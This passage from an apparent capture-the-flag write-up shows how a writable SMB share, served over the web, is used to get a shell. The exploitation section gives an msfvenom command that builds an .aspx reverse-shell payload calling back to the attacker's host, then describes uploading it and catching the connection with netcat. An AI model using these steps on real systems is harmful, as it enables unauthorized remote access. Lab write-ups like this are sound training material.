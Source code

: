 As you can see, nothing showed up on the first scan.  However, the second scan showed a hit for the `/nt4wrksv` directory.  Recall that this is the name of the SMB share which we were able to access anonymously.

To confirm this, we can navigate to `/nt4wrks/passwords.txt`:

![confirmation](/assets/posts/20220125/8_confirmation.png)

This means that we can upload files to the SMB share and access them through our browser.  So let's try and upload a reverse shell.

#### Exploitation

Since this is an ISS machine, they require .aspx shells.  I used this one [here](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx) but you can also create one with `msfvenom` using the following command:

```
msfvenom -p windows/x86/shell_reverse_tcp LHOST<your_ip> LPORT=<your_listening_port> -f aspx -o shell.aspx
```

Let's now upload this through SMB:

![uploading shell](/assets/posts/20220125/9_uploading_shell.png)

We also need to start a `netcat` listener on the port we declared when creating the payload.  Now, navigate to `/nt4wkrs/shell.aspx` in your browser.  `netcat` should catch the callback:

![netcat callback](/assets/posts/20220125/10_netcat_callback.png)
